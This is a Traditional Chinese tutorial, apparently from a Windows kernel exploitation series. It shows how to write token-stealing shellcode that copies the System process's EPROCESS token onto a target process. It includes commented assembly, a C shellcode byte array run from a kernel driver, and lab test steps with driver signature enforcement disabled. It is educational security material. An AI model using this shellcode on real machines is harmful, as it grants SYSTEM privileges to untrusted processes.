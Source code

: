 # 【第 10 話】寫 Shellcode 竄改 EPROCESS Token

## 文章大綱
在[【第 04 話】竄改 EPROCESS Token](/asset/第%2004%20話) 我們學會如何用 WinDbg 竄改 EPROCESS Token，並且在[【第 06 話】用 IOCTL 與驅動程式溝通](/asset/第%2006%20話)將竄改 EPROCESS Token 的行為寫程式自動化。

不過之前的程式是使用 [PsLookupProcessByProcessId](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/ddi/ntifs/nf-ntifs-pslookupprocessbyprocessid) 取得 EPROCESS 位址然後竄改 Token，而這篇則是要寫 Shellcode 來做這件事，因為之後的文章會使用這個 Shellcode 實作攻擊腳本。

## Windows Kernel Shellcode 的背景知識
### KPCR
[KPCR](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/ntos/kpcr.htm)（Kernel Processor Control Region）是一個存 Processor 資訊的結構，它存在 `gs:[0]`，裡面有 ETHREAD 結構。ETHREAD 代表一個 Thread Object，其中包含 Thread 所屬 Process 的指標和指向 KTHREAD 的指標。

```
mov rdx, [gs:188h]    ; 從 KPCR 取得 ETHREAD 位址
mov r8, [rdx + b8h]   ; 從 ETHREAD 中取得 EPROCESS 位址
```

### ActiveProcessLinks
在[【第 04 話】用 WinDbg 竄改 EPROCESS Token](/asset/第%2004%20話) 我們認識了 EPROCESS 結構中的 Token，現在要介紹 EPROCESS 的 ActiveProcessLinks。

ActiveProcessLinks 的結構是個 [Doubly Linked List](https://en.wikipedia.org/wiki/Doubly_linked_list)，Flink 會指向下一個 EPROCESS 的 ActiveProcessLinks 的 Flink，Blink 則指向上一個 EPROCESS 的 ActiveProcessLinks 的 Flink。

![](ActiveProcessLinks.png)

在 WinDbg 輸入指令 `dt nt!_EPROCESS` 可以得知 ActiveProcessLinks 在 Windows 10 1709 的 Offset 是 `EPROCESS+0x2e8`。要了解 ActiveProcessLinks 的原因是 Shellcode 中會透過 ActiveProcessLinks 找到目標的 EPROCESS。

```
kd> dt nt!_EPROCESS
   +0x000 Pcb              : _KPROCESS
   +0x2d8 ProcessLock      : _EX_PUSH_LOCK
   ...
   +0x2e8 ActiveProcessLinks : _LIST_ENTRY
   ...
```


## 寫組語
有了以上背景知識應該就能理解接下來的組語（Assembly），步驟如下。
1. 從 KPCR 取得 ETHREAD 位址
2. 從 ETHREAD 取得 EPROCESS 位址
3. 從 EPROCESS 取得 ActiveProcessLinks 的 List Head 位址
4. 迴圈找到 System 的 EPROCESS 並取得 Token 的值
5. 迴圈找到目標 Process 的 EPROCESS
6. 把目標 Process 的 EPROCESS Token 竄改為 System 的 EPROCESS Token

```
mov rdx, [gs:188h]             ; 1. 從 KPCR 取得 ETHREAD 位址
mov r8, [rdx + b8h]            ; 2. 從 ETHREAD 取得 EPROCESS 位址
mov r9, [r8 + 2e8h]            ; 3. 從 EPROCESS 取得 ActiveProcessLinks 的 List Head 位址
mov rcx, [r9]                  ; 取得 List 中第一個 Process 的 ActiveProcessLinks
find_system_proc:              ; 4. 迴圈找到 system 的 EPROCESS 並取得 Token 的值
    mov rdx, [rcx - 8]         ; 取得在 ActiveProcessLinks (0x2e8) 前面的 UniqueProcessId (0x2e0)
    cmp rdx, 4                 ; 確認 UniqueProcessId 是不是 System Process (pid: 4)
    jz found_system            ; 如果是 System 就跳到 found_system
    mov rcx, [rcx]             ; 不是 System 就繼續從找下個 Process
    jmp find_system_proc
found_system:                  ; 5. 迴圈找到目標 Process 的 EPROCESS
    mov rax, [rcx + 70h]       ; 取得在 ActiveProcessLinks (0x2e8) 後面的 Token (0x358)
    and al, 0f0h               ; 清除 TOKEN 的 _EX_FAST_REF 結構後 4 bits 的 flags
find_current_process:
    mov rdx, [rcx-8]           ; 取得在 ActiveProcessLinks (0x2e8) 前面的 UniqueProcessId (0x2e0)
    cmp rdx, <Current Process> ; 確認 UniqueProcessId 是不是目標 Process
    jz found_cmd               ; 是目標 Process 就跳到 found_current_process
    mov rcx, [rcx]             ; 不是目標 Process 就繼續找下個 Process
    jmp find_current_process
found_current_process:
    mov [rcx+70h], rax         ; 6. 把目標 Process 的 EPROCESS Token 竄改為 System 的 EPROCESS Token
    ret
```


## 寫程式
Shellcode 的部分主要參考 [MSI Ambient Link Driver 1.0.0.8 Privilege Escalation](https://packetstormsecurity.com/files/159315/MSI-Ambient-Link-Driver-1.0.0.8-Privilege-Escalation.html)，我抽出用 Shellcode 竄改 Token 提權的部分並加了一些註解。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/AbuseEprocessTokenShellcode)。

首先寫一個提權的 Shellcode，接下來跟[【第 06 話】IOCTL 與驅動程式溝通－實作竄改 EPROCESS TOKEN](/asset/第%2006%20話) 一樣從應用程式取得目標 pid，最後用 [ExAllocatePool](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/ddi/wdm/nf-wdm-exallocatepool) 申請一塊記憶體存放 Shellcode 並把它當成函數指標執行。

```c
// 提權的 Shellcode
CHAR token_steal[] =
    "\x65\x48\x8B\x14\x25\x88\x01\x00\x00"    // mov rdx, [gs:188h]     ; 1. 從 KPCR 取得 ETHREAD 位址
    "\x4C\x8B\x82\xB8\x00\x00\x00"            // mov r8, [rdx + b8h]    ; 2. 從 ETHREAD 取得 EPROCESS 位址
    "\x4D\x8B\x88\xe8\x02\x00\x00"            // mov r9, [r8 + 2e8h]    ; 3. 從 EPROCESS 取得 ActiveProcessLinks 的 List Head 位址
    "\x49\x8B\x09"        // mov rcx, [r9]          ; 取得 List 中第一個 Process 的 ActiveProcessLinks
    // find_system_proc:    ; 4. 迴圈找到 system 的 EPROCESS 並取得 Token 的值
    "\x48\x8B\x51\xF8"    // mov rdx, [rcx - 8]    ; 取得在 ActiveProcessLinks (0x2e8) 前面的 UniqueProcessId (0x2e0)
    "\x48\x83\xFA\x04"    // cmp rdx, 4            ; 確認 UniqueProcessId 是不是 System Process (pid: 4)
    "\x74\x05"            // jz found_system       ; 如果是 System 就跳到 found_system
    "\x48\x8B\x09"        // mov rcx, [rcx]        ; 不是 System 就繼續從找下個 Process
    "\xEB\xF1"            // jmp find_system_proc
    // found_system:        ; 5. 迴圈找到目標 Process 的 EPROCESS
    "\x48\x8B\x41\x70"    // mov rax, [rcx + 70h]  ; 取得在 ActiveProcessLinks (0x2e8) 後面的 Token (0x358)
    "\x24\xF0"            // and al, 0f0h          ; 清除 TOKEN 的 _EX_FAST_REF 結構後 4 bits 的 flags
    // find_current_process:
    "\x48\x8B\x51\xF8"    // mov rdx, [rcx-8]      ; 取得在 ActiveProcessLinks (0x2e8) 前面的 UniqueProcessId (0x2e0)
    "\x48\x81\xFA\x99\x99\x00\x00"    // cmp rdx, <Current Process>    ; 確認 UniqueProcessId 是不是目標 Process
    "\x74\x05"         // jz found_cmd      ; 是目標 Process 就跳到 found_current_process
    "\x48\x8B\x09"     // mov rcx, [rcx]    ; 不是目標 Process 就繼續找下個 Process
    "\xEB\xEE"         // jmp find_current_process
    // found_current_process:
    "\x48\x89\x41\x70" // mov [rcx+70h], rax    ; 6. 把目標 Process 的 EPROCESS Token 竄改為 System 的 EPROCESS Token
    "\xc3";            // ret

// 將目標 pid 寫入 Shellcode 中
token_steal[54] = (CHAR)processId;
token_steal[55] = (CHAR)(processId >> 8);

// 執行 Shellcode
PVOID shellcode = ExAllocatePool(NonPagedPool, sizeof(token_steal));
if (shellcode)
{
    memcpy(shellcode, token_steal, sizeof(token_steal));
    ((VOID(*)())shellcode)();
}
break;
```

## 測試
開啟 VM，記得要在本機開啟 vmmon64.exe，並在 boot options 按 F8 選擇 `Disable Driver Signature Enforcement`。

1. 開啟一個 cmd，再開啟 [Sysinternals](https://learn.microsoft.com/en-us/sysinternals/) 中的 procexp64.exe 確認 cmd 的 pid
2. 載入 [AbuseEprocessTokenShellcode.sys](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessTokenShellcode/bin/AbuseEprocessTokenShellcode.sys)
3. 執行 [AbuseEprocessToken.exe](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessToken/bin/AbuseEprocessToken.exe)，並輸入 cmd 的 pid，成功執行後輸入 `whoami` 會發現權限已經變成 `system` 了


## 參考資料
- [MSI Ambient Link Driver 1.0.0.8 Privilege Escalation](https://packetstormsecurity.com/files/159315/MSI-Ambient-Link-Driver-1.0.0.8-Privilege-Escalation.html)
- [Kernel Exploitation: Advanced](https://resources.infosecinstitute.com/topics/hacking/kernel-exploitation-part-2/)
- [第七天 Thread(執行緒)--下](https://ithelp.ithome.com.tw/articles/10203786)